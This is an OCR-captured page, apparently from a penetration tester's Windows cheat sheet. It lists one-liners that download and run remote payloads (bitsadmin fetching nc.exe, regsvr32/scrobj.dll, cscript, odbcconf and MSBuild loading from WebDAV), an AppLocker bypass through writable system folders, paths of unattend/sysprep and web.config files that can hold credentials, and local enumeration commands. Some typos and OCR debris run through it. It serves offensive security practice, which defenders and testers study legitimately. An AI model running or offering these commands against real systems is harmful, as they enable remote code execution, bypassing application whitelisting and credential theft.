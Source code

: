 bitsadmin /rawreturn /transfer getpayload http://IP/nc.exe nc.exe

cmd.exe /k < \webdavserver\folder\batchfile.txt

cscript //E:jscript \webdavserver\folder\payload.txt Payload written on disk: WebDAV client local cache

regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll regsvr32 /u /n /s /i:\webdavserver\folder\payload.sct scrobj.dll Payload written on disk: IE local cache

odbcconf /s /a {regsvr \webdavserver\folder\payload\_dll.txt} Payload written on disk: WebDAV client local cache

cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml" Payload written on disk: WebDAV client local cache

> IE local cache C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
> C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
>
> UNC Path pointing to WebDAV / WebDAV client local cache: C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs\_DAV {.is-info}

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Applocker bypass - Poor man's method

**Check for write/execute permission** C:\Windows\Tasks C:\Windows\Temp C:\Windows\tracing

**Find write/execute permissions** icacls c:\*. /findsid \[USERNAME] /t /c /l => Sometimes C:\Windows has to be specified again icacls c:\Windows\ /findsid \[USERNAME] /t /c /l

## Check files / folders in case of automated imaging/setup

C:\unattend.xml\
&#x20;C:\Windows\Panther\Unattend.xml \
C:\Windows\Panther\Unattend\Unattend.xml \
C:\Windows\system32\sysprep.inf \
C:\Windowds\system32\sysprep\sysprep.xml C:\Windows\Microsoft.NET\Framework64\vxxxx\Config\web.config \
C:\inetpub\wwwroot\web.config

## Commands

**User, Groups, Tasks** \
whoami \
whoami username /all \
net user \
net groups\
net localgroups\
net lacalgroups administrators (language dependent)\
tasklist /v /fi "username eq system" #Filter "system" processes
